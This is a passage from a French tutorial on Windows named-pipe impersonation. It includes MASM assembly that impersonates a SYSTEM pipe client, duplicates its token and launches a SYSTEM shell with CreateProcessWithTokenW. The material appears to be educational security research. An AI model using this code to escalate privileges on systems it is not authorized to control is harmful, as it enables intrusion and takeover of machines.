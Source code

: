 Le programme __np-reader.exe__ est exécuté en tant que __SYSTEM__ (grâce à psexec), et c'est son contexte de sécurité que le programme __np-writer.exe__ va impersonifier.

Ce bout de code attend indéfiniment le named pipe, puis créer un fichier, ce qui redonne la main au code __np-writer__. Le code s'arretera à la fonction __ReadFile()__ car il n'y a rien dans le pipe. On va donc écrire dans le pipe (np-writer.exe) comme vu dans la portion de code précédente.

Afin de pouvoir impersonifier un contexte de sécurité, il faut absolument qu'il y ait eu une écriture/lecture. Cela se comprend, sinon il n'y a aucune interaction entre les 2 processus. 

Pour impersonifier, j'utilise la fonction __ImpersonateNamedPipeClient()__ comme suit:

```
WriteFileOk:
    invoke ImpersonateNamedPipeClient, ebx
    ;invoke GetLastError
    cmp eax, 0
    jnz ImpersonateOk
    jmp exit
```

Si tout se passe bien, je récupère un handle sur le thread, puis je récupère le token de sécurité que je duplique et que j'utilise pour ouvrir un shell SYSTEM:


```
ImpersonateOk:

    invoke GetCurrentThread
    ; F01FF: TOKEN_ALL_ACCESS
    invoke OpenThreadToken, eax, 0F01FFh, 0, addr token
    cmp eax, 0
    jnz OpenThreadTokenOk
    jmp exit


OpenThreadTokenOk:
    
    ;http://pinvoke.net/default.aspx/Enums.SECURITY_IMPERSONATION_LEVEL
    ; F01FF: TOKEN_ALL_ACCESS
    ; TokenPrimary: 1
    invoke DuplicateTokenEx, token, 0F01FFh, 0, 3, 1, addr newtoken
    ;invoke GetLastError
    cmp eax, 0
    jnz DuplicateTokenOk
    jmp exit

DuplicateTokenOk:

    invoke CreateProcessWithTokenW, newtoken, 2, 0, addr cmd, 10h, 0, 0, addr startinfo, addr procinfo
;    invoke GetLastError

    invoke DisconnectNamedPipe, ebx
```
